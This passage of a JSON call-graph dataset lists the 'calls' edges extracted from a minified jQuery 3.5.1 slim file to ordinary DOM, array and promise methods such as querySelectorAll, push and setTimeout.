"appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getElementsByTagName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getElementsByName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getElementById"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getAttributeNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getElementById"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getElementsByName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getElementsByTagName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "querySelectorAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getElementsByTagName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getElementsByClassName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "querySelectorAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "querySelectorAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "querySelectorAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "querySelectorAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "querySelectorAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "querySelectorAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "querySelectorAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "querySelectorAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "querySelectorAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "querySelectorAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "querySelectorAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "compareDocumentPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "compareDocumentPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "compareDocumentPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "unshift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "unshift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getAttributeNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "hasFocus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "empty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "uniqueSort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "compareDocumentPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getAttributeNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "grep"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "grep"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "grep"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "not"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "matchesSelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "matches"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "pushStack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "uniqueSort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "pushStack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "pushStack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "isPlainObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "ready"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "makeArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "prev"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "matchesSelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "pushStack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "first"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "prevAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "pushStack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "merge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "uniqueSort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "reverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "pushStack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "done"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "fail"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "inArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "fireWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "done"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "fail"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "promise"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "progress"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "done"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "fail"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "promise"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "promise"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "exceptionHook"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "rejectWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getStackHook"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", 